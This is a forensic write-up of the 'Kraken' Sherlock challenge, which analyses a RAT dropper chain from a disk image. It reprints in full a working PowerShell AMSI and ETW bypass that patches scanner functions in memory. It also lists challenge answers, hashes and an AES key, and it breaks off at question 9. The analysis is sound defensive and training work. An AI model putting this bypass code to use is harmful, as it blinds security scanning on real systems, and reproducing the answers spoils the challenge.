# Kraken


## Sherlock scenario

Our SOC detected an emerging RAT variant delivered via malicious file execution in its early stages, triggering an alert before C2 communication was fully established. Rapid containment prevented further exfiltration or post-exploitation activities. A full forensic triage was conducted to analyze persistence mechanisms and C2 infrastructure, enabling comprehensive IOC extraction to provide them to our threat intelligence platform for enhanced detection and proactive hunting.

## Given artifact

A disk image `.ad1` file

## Questions

### 1. What was the exact date and time the malicious file was executed by the user?

It's quite difficult to determine which is the malware, let alone its execution time. I try to inspect all usual drop point, and see a suspicious `.bat` script in temp folder:



But it seems not to be the first stage of the malware, as the accessed time is not correct for submission. So perhaps this is dropped by another program. I use that timestamp to filter the prefetch files, and an instance of `Wscript.exe` turns out to be the culprit:



It's used to run a javascript file called `config.js`, then drop the suspicious bat file in the temp folder

**Answer: 2025-06-13 14:43:27**

### 2. During the initial stage of execution, what is the name of the first file dropped by the malicious file?

Already covered

**Answer: temp_993805.bat**

### 3. During the initial stage of execution, The malicious file performed in-memory patching of a critical security function by overwriting it with a 6-byte sequence that forces the function to return zero. What is this hexadecimal byte sequence?

Let's first try to deobfuscate the bat script:



The main schema is to use undefined variable which is ignored by cmd, and use the Set command to divide the payload into several junk variables. It first try to copy itself to user's root folder with the name `dwm.bat`. Then the main payload is constructed through multiple variables, I neutralize it by adding `echo` to the command block and redirect output to a text file:



Open the decoded payload to see its content:



Take that base64 chunk to cyberchef:



Another replace is utilized here, I use find/replace recipe to make it more readable:



Let's analyze this script thoroughly:

- First it reads `dwn.bat` (literally its own copy) and find for the pattern starting with `:::`, extract that base64 chunk, decode and reflectively execute it, this is the AMSI bypass we concern for this question.
- The next two functions perform AES decrypt with hardcoded key, iv and Gzip Decompress, respectively
- The next function `ver...` takes a byte array and uses .NET Reflection to load it directly into memory as an executable application, then finds the EntryPoint and invokes it. 
- The final piece of code reads through `dwm.bat` again, find for `::`, take that huge chunk and splits by `\`, each of them is base64-decoded, aes decrypted and gzip decompressed before invoked reflectively in memory

We will inspect the sophisticated amsi bypass first, take the base64 chunk starting with `:::` in the batch file to decode:

```powershell
function Invoke-SystemMaintenance {
    [CmdletBinding()]
    param (
        [Parameter(Mandatory=$false, Position=0)]
        [switch]$LogDetails,
        [Parameter(Mandatory=$false, Position=0)]
        [switch]$OptimizePerformance
    )

    if ($LogDetails) { $VerbosePreference = "Continue" }

    try {
        function Get-WindowsAPIFunction {
            param ([string]$DllName, [string]$FunctionName)
            $moduleHandler = $Core_ModuleLoader.Invoke($null, @($DllName))
            $tempReference = New-Object IntPtr
            $handleReference = New-Object System.Runtime.InteropServices.HandleRef($tempReference, $moduleHandler)
            $Core_FunctionLoader.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$handleReference, $FunctionName))
        }

        function Get-SystemComponent {
            param (
                [Parameter(Position=0, Mandatory=$true)]
                [IntPtr]$ComponentAddress,
                [Parameter(Position=1, Mandatory=$true)]
                [Type[]]$ParameterTypes,
                [Parameter(Position=2)]
                [Type]$ReturnType = [Void]
            )
            $currentDomain = [AppDomain]::("Curren" + "tDomain")
            $assemblyName = New-Object System.Reflection.AssemblyName('SystemAssembly')
            $assemblyBuilder = $currentDomain.DefineDynamicAssembly($assemblyName, [System.Reflection.Emit.AssemblyBuilderAccess]::Run)
            $moduleBuilder = $assemblyBuilder.DefineDynamicModule('SystemModule', $false)
            $typeBuilder = $moduleBuilder.DefineType('SystemComponent', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
            $constructor = $typeBuilder.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $ParameterTypes)
            $constructor.SetImplementationFlags('Runtime, Managed')
            $methodBuilder = $typeBuilder.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $ReturnType, $ParameterTypes)
            $methodBuilder.SetImplementationFlags('Runtime, Managed')
            $componentType = $typeBuilder.CreateType()
            [System.Runtime.InteropServices.Marshal]::("GetDelegate" + "ForFunctionPointer")($ComponentAddress, $componentType)
        }

        Add-Type -AssemblyName System.Windows.Forms -ErrorAction Stop
        $SystemMemory = [System.Runtime.InteropServices.Marshal]
        $WindowsAPI = [Windows.Forms.Form].Assembly.GetType('System.Windows.Forms.UnsafeNativeMethods')
        $bytesGetFunction = [Byte[]](0x47,0x65,0x74,0x50,0x72,0x6F,0x63,0x41,0x64,0x64,0x72,0x65,0x73,0x73)
        $bytesGetModule  = [Byte[]](0x47,0x65,0x74,0x4D,0x6F,0x64,0x75,0x6C,0x65,0x48,0x61,0x6E,0x64,0x6C,0x65)
        $getFunctionName = [System.Text.Encoding]::ASCII.GetString($bytesGetFunction)
        $getModuleName  = [System.Text.Encoding]::ASCII.GetString($bytesGetModule)
        $Core_ModuleLoader = $WindowsAPI.GetMethod($getModuleName)
        $Core_FunctionLoader = $WindowsAPI.GetMethod($getFunctionName)
        $bytesInitialize = [Byte[]](0x41,0x6D,0x73,0x69,0x49,0x6E,0x69,0x74,0x69,0x61,0x6C,0x69,0x7A,0x65)
        $bytesLibrary  = [Byte[]](0x61,0x6D,0x73,0x69,0x2E,0x64,0x6C,0x6C)
        $libraryName    = [System.Text.Encoding]::ASCII.GetString($bytesLibrary)
        $initFunction  = [System.Text.Encoding]::ASCII.GetString($bytesInitialize)
        $initializeAddress = Get-WindowsAPIFunction $libraryName $initFunction
        $pointerSize = $SystemMemory::SizeOf([Type][IntPtr])
        if ($pointerSize -eq 8) {
            $initializeComponent = Get-SystemComponent $initializeAddress @([string], [UInt64].MakeByRefType()) ([Int])
            [Int64]$systemContext = 0
        }
        else {
            $initializeComponent = Get-SystemComponent $initializeAddress @([string], [IntPtr].MakeByRefType()) ([Int])
            $systemContext = 0
        }
        $securitySuffix = 'Virt' + 'ualProtec'
        $securityMethod = '{0}{1}' -f $securitySuffix, 't'
        $kernelLibrary  = "ker{0}.dll" -f "nel32"
        $securityAddress   = Get-WindowsAPIFunction $kernelLibrary $securityMethod
        $securityDelegate = Get-SystemComponent $securityAddress @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])
        $MEMORY_PROTECTION_CONSTANT = 0x00000080
        $optimizationData = [byte[]](0xb8,0x0,0x00,0x00,0x00,0xC3)
        $originalProtection   = 0
        $componentIndex      = 0
        if ($initializeComponent.Invoke("Scanner", [ref]$systemContext) -ne 0) {
            if ($systemContext -eq 0) { Throw "[!] No system component found." }
            else { Throw "[!] Error initializing system component." }
        }
        if ($pointerSize -eq 8) {
            $mainData = $SystemMemory::ReadInt64([IntPtr]$systemContext, 16)
            $componentPointer  = $SystemMemory::ReadInt64([IntPtr]$mainData, 64)
        }
        else {
            $mainData = $SystemMemory::ReadInt32($systemContext + 8)
            $componentPointer  = $SystemMemory::ReadInt32($mainData + 36)
        }
        while ($componentPointer -ne 0) {
            if ($pointerSize -eq 8) {
                $functionTable   = $SystemMemory::ReadInt64([IntPtr]$componentPointer)
                $scannerAddress = $SystemMemory::ReadInt64([IntPtr]$functionTable, 24)
            }
            else {
                $functionTable   = $SystemMemory::ReadInt32($componentPointer)
                $scannerAddress = $SystemMemory::ReadInt32($functionTable + 12)
            }
            if (-not $securityDelegate.Invoke($scannerAddress, [uint32]6, $MEMORY_PROTECTION_CONSTANT, [ref]$originalProtection)) {
                Throw "[!] Error modifying memory settings at $scannerAddress"
            }
            try {
                $SystemMemory::Copy($optimizationData, 0, [IntPtr]$scannerAddress, 6)
            }
            catch {
                Throw "[!] Error applying optimization at $scannerAddress"
            }
            for ($i=0; $i -lt $optimizationData.Length; $i++) {
                $verificationByte = $SystemMemory::ReadByte([IntPtr]::Add($scannerAddress, $i))
                if ($verificationByte -ne $optimizationData[$i]) { Throw "[!] Optimization failed at $scannerAddress" }
            }
            if (-not $securityDelegate.Invoke($scannerAddress, [uint32]6, $originalProtection, [ref]$originalProtection)) {
                Throw "[!] Failed to restore memory settings at $scannerAddress"
            }
            $componentIndex++
            if ($pointerSize -eq 8) {
                $componentPointer = $SystemMemory::ReadInt64([IntPtr]$mainData, 64 + ($componentIndex * $pointerSize))
            }
            else {
                $componentPointer = $SystemMemory::ReadInt32($mainData + 36 + ($componentIndex * $pointerSize))
            }
        }
        if ($OptimizePerformance) {
            $bytesService = [Byte[]](0x45,0x74,0x77,0x45,0x76,0x65,0x6E,0x74,0x57,0x72,0x69,0x74,0x65)
            $serviceName  = [System.Text.Encoding]::ASCII.GetString($bytesService)
            $serviceAddress  = Get-WindowsAPIFunction ("nt{0}.dll" -f "dll") $serviceName
            if (-not $securityDelegate.Invoke($serviceAddress, 1, $MEMORY_PROTECTION_CONSTANT, [ref]$originalProtection)) {
                Throw "[!] Error modifying memory settings of $serviceName"
            }
            try {
                if ($pointerSize -eq 8) {
                    $SystemMemory::WriteByte($serviceAddress, 0xC3)
                }
                else {
                    $servicePatch = [byte[]](0xb8,0xff,0x55)
                    $SystemMemory::Copy($servicePatch, 0, [IntPtr]$serviceAddress, 3)
                }
            }
            catch {
                Throw "[!] Error optimizing $serviceName"
            }
            if (-not $securityDelegate.Invoke($serviceAddress, 1, $originalProtection, [ref]$originalProtection)) {
                Throw "[!] Failed to restore memory settings of $serviceName"
            }
            Write-Output "[*] Connected."
        }
        else {
            Write-Output "[*] System maintenance completed."
        }
    }
    catch {
        Throw $_
    }
}

Invoke-SystemMaintenance -OptimizePerformance
```

This is highly sophisticated, the first piece is dynamic API resolution: Malware often gets caught statically by importing functions like GetProcAddress or GetModuleHandle. This script avoids that by abusing a built-in .NET class (System.Windows.Forms.UnsafeNativeMethods) that already has these functions loaded. It uses this to stealthily look up memory addresses for Windows APIs.

Notice the amsi initialization piece:

```powershell
$bytesInitialize = [Byte[]](0x41,0x6D,0x73,0x69,0x49,0x6E,0x69,0x74,0x69,0x61,0x6C,0x69,0x7A,0x65) #AmsiInitialize
$bytesLibrary  = [Byte[]](0x61,0x6D,0x73,0x69,0x2E,0x64,0x6C,0x6C) # amsi.dll
```

The script builds the strings amsi.dll and AmsiInitialize from byte arrays to evade string-based signatures. It then calls `AmsiInitialize("Scanner", ...)` to trick Windows into giving it a valid, active AMSI context object in memory

Once it has the AMSI context, it acts like a debugger. It uses ReadInt64 to read raw memory offsets (16, 64, 24, etc.). It is manually walking down the internal C++ vtable structures of the AMSI COM object to find the exact memory address of the actual scanning function.

```powershell
$optimizationData = [byte[]](0xb8,0x0,0x00,0x00,0x00,0xC3)
```

This is the core of the bypass. In x86/x64 assembly, this 6-byte hex sequence translates to:

```text
  • B8 00 00 00 00  => mov eax, 0
  • C3              => ret
```

If a function executes this, it immediately stops and returns 0. In the context of AMSI, a return value of 0 corresponds to `AMSI_RESULT_CLEAN`.

It calls `VirtualProtect` (obfuscated in the script as $securityMethod / Virt + ualProtec + t) to change the memory protections of the scanner function to 0x80 (`PAGE_EXECUTE_WRITECOPY`). It overwrites the first 6 bytes of the scanner with mov eax, 0; ret, and then restores the memory protection. From this moment on, anytime Windows tries to scan a script, the scanner immediately reports it as "Clean"!

If you notice the very bottom block (`if ($OptimizePerformance)`), it does the exact same thing to `EtwEventWrite` inside `ntdll.dll`. It overwrites it with a 0xC3 (ret) instruction. This completely blinds PowerShell's Event Tracing, meaning none of the malware's subsequent actions will be written to the PowerShell Event Logs

**Answer: 0xB8,0x0,0x00,0x00,0x00,0xC3**

### 4. What is the name of the file responsible for dropping the second-stage PE Files? (2nd Stage)

Already covered

**Answer: dwm.bat**

### 5. What is the SHA-1 hash of the PE file created during the infection process, not malicious on its own?

Find the chunk starting with `::` in the bat script, splitting by `\` gives us two pieces, one short and one long. The short piece is non-malicious, perhaps a helper function:



Take it hash to answer

**Answer: 339e27243df24f2b8979e78711e396698f4f47cc**

### 6. In the third stage, what is the name of the malicious encrypted file that is injected into memory?

The long piece is a malicious C# program, I use dnSpy to decompile it, let's analyze it one by one:











**Answer: xxxxxxxxxxxxxxxxxxxxxxxxxxxx.exe**

### 7. What encryption key and initialization vector (IV) were used to decrypt the file prior to memory injection?

Can be seen in the C# code

**Answer: ALWIGeOnxudniHR2K4CNZmnaEZffXt6zKsRFoAM2/mA=,JXYbOTuuz3cErOl30kAKhw==**

### 8. What is the SHA-1 hash of that file after decryption?

Using cyberchef the same way we did with the powershell script. The `xxxx...exe` can be save from Resource in the dnSpy tree

**Answer: 052c0687f023564a3c31fb652bea3405341272cb**

### 9. There are 3 user agent strings in that PE File, what is the one related to the Mobile Device?

